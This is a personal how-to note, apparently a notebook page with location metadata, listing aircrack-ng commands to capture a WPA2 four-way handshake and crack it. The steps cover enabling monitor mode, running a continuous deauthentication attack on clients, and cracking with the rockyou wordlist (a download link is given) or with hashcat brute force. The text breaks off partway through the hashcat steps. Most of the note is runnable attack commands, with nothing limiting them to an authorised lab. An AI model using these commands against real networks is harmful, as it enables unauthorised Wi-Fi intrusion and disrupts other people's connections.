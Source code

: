 ```yaml
---
title: Commands WPA2 handshake
updated: 2023-03-06 03:41:21Z
created: 2023-03-02 12:48:33Z
latitude: 50.81947760
longitude: 3.25772630
altitude: 0.0000
completed?: no
---
```


**Kills processes:**
`sudo airmon-ng check kill`

> If you want to restart the processes run the following command:
> `sudo service NetworkManager restart`

**Starts monitor mode**
`sudo airmon-ng start wlan0`

**Verify that monitor mode is used**
`sudo airmon-ng`

**Get the AP's MAC address and channel**
`sudo airodump-ng wlan0`

1.  **window 1**
    
    1.  *Fill in the channel(after -c) and bssid(after --bssid)*
    2.  `sudo airodump-ng -w hack1 -c --bssid wlan0`
    
    > Note: "hack1 is the filename where we are going to store the captures in, you can choose the name of this file as it doesn't matter, you need to make sure that you remember it tho"
    
2.  **window 2**
    
    1.  *Fill in the bssid after '-a'*
    2.  `sudo aireplay-ng --deauth 0 -a wlan0`

**Use Wireshark to open hack file**
`wireshark hack1-01.cap`

> Note: This is the filename which we've chosen in 'window 1', as there are many captures going on (unless you live under a rock or something ;P), you will get multiple files and that's why there is a '-01' added. You could even have to look in 'hack1-03.cap' to be able to find the 4-way handshake.

**Filter Wireshark messages for EAPOL**

**Stop monitor mode**
`airmon-ng stop wlan0`

**Crack file with Rock you or another wordlist**
**Make sure you have rockyou in text format (unzip file on Kali)**
`aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt`

> Note: You can find it on any Kali distribution included at the location above, mine didn't have it tho, so I had to download it :'(
> If your were out of luck like me and don't have the wordlist, [you could download it over here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).
> **I had to use the followinf command as it was not included in my Kali distro (I downloaded my wordlist)**
> `aircrack-ng hack1-01.cap -w /root/Downloads/rockyou.txt`

**We can also try this without a wordlist, you can also use a brute force attack**

1.  Navigate to the folder where the .cap file is stored
2.  Convert the cap file to a file that is readable for 'hashcat'
3.  `/usr/share/hashcat-utils/cap2hccapx.bin hack1-01.cap wpa2.hccapx`
    ![89fee1ff703243b54724a52e1e91350c.png](../_resources/89fee1ff703243b54724a52e1e91350c-1.png)
4.  Next I'll move my file to my Windows machine, so that I'll be able to use my GPU to brute force faster
5.  Then using cmd I'll navigate to my hashcat folder where i copied the file to

![2c584a63276cd5269a185704c3c26f99.png](../_resources/2c584a63276cd5269a185704c3c26f99-1.png)

6\. Next I want to check wether or not my GPU is available

![6c4bd1871bea053c4919b9e8f1bfe9a6.png](../_resources/6c4bd1871bea053c4919b9e8f1bfe9a6-1.png)

7.